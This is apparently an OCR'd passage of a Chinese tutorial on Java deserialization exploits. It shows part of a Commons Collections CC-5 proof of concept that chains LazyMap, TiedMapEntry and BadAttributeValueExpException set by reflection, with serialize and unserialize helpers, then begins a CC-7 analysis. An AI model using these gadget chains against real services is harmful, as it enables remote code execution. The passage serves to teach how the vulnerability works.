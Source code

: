 ```bash
        Map uselessMap = new HashMap();
        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lituer");//实例化TiedMapEntry，构造方法map传入lazyMap

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);//入口      

        //反射修改val
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-7 分析

### 分析过程

CC-7 将 AnnotationInvocationHandler 类换成了 HashTable，最后同样是执行得 lazyMap

我们先先来看一下 HashTable 的 readObject 方法

我们直接跟进一下
